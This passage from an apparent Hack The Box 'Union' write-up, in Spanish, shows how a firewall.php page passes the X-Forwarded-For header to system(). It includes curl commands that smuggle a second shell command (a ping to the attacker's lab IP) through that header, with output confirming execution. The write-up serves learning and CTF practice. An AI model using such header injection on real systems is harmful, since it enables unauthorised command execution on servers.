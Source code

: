 Si analizamos vemos que esta usando **system** para ejecutar un comando lo que esta haciendo es agregar una regla al firewall que permite el trafico **INPUT** desde una **IP** especifica 

Lo que podemos hacer es abusar de la cabecera **HTTP_X_FORWARDER_FOR** y de **system** ya que la variable **$IP** almacena lo que pusimos en esa variable por ejemplo cualquier **IP** y despues le pasa **IP** al comando que ejecuta con **system** y nosotros podemos definir la cabecera con **curl**

![](/assets/images/htb-writeup-union/web16.png)

Lo que vamos a hacer es usar **curl** para abusar de esto y ver si podemos ejecutar un comando pasando la **cookie** de sesión también por que lo vamos a hacer desde **curl**

```powershell
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.11.128;" -H "Cookie: PHPSESSID=pe0n0bkv7dl2rd2tc61mceb5hk"
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.12;" -H  "Cookie: PHPSESSID=pe0n0bkv7dl2rd2tc61mceb5hk"
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
		<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
PING 10.10.14.12 (10.10.14.12) 56(84) bytes of data.
64 bytes from 10.10.14.12: icmp_seq=1 ttl=63 time=92.5 ms

--- 10.10.14.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 92.462/92.462/92.462/0.000 ms
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
		</div>
	</section>
</div>
uhc@union:/var/www/html$ 
```
